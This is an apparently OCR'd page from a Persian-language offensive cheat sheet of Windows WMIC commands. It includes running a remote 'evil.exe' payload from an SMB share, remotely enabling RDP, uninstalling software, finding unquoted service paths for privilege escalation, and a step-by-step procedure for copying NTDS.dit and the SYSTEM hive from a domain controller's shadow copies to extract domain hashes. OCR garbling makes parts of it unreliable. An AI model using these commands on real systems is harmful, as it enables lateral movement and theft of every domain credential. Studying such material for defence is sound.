 ```text
wmic /node: targetiP /user:domain\user /password:password process call create "\ \ smbiP \share\evil.exe" 
```

### حذف نرم افزار

```text
wmic product get name /value # Get software names 
wmic product where name="XXX" call uninstall /nointeractive 
```

###  دسترسی به کاربر از راه دور

```text
wmic /node:remotecomputer computersystern get username 
```

### نمایش فرآیند ها به صورت لحظه ای

```text
wmic /node:machinename process list brief /every:l 
```

### شروع RDP

```text
wmic /node:"machinename 4" path Win32_TerminalServiceSetting where 
AllowTSConnections=''O'' call SetAllowTSConnections ''1''
```

### لیست زمان هایی که کاربر وارد شده

```text
wmic netlogin where (name like "%adm%") get numberoflogons 
```

### جست و جو سرویس ها برای مسیر های unquoted

```text
wmic service get narne,displayname,pathnarne,startrnode 
| findstr /i nauton | findstr /i /v "C:\windows\\" | findstr /i /v """
```

### کپی از Volume shadow

```text
1. wmic /node: DC IP /user:"DOI1AIN\user" /password:"PASS" process 
   call create "cmd /c vssadmin list shadows 2 &1 
   c:\temp\output.txt" 
# If any copies alread1 ex~st then exfil, otherwise create using 
following commands. Check output.txt for anJ errors 
2. wmic /node: DC IP /user:"DOMAIN\user" /password:"PASS" process 
   call create "cmd /c vssadmin create shadow /for=C: 2 &1 
   C:\temp\output.txt" 
3. wmic /node: DC IP /user:"DOMAIN\user" /password:"PASS" process 
   call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVol~meShadowCopy1\Windows\System32\co nfig\SYSTEM 
   C:\temp\system.hive 2 &1  
   C:\temp\output.txt" 
4. wmic /node: DC IP /user: "DOl'.llUN\user" /password: "PASS" process call create ''cmd /c copy 
   \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyc\NTDS\NTDS.dit 
   C:\temp\ntds.dit 2 &1 C:\temp\output.txt" 
Step by step instructions on room362.com for step below 
5. From Linux, download and run ntdsxtract and libesedb to export 
   hashes or other domain information 
   a. Additional instructions found under the VSSOWN section 
   b. ntdsxtract - http://www.ntdsxtract.com 
```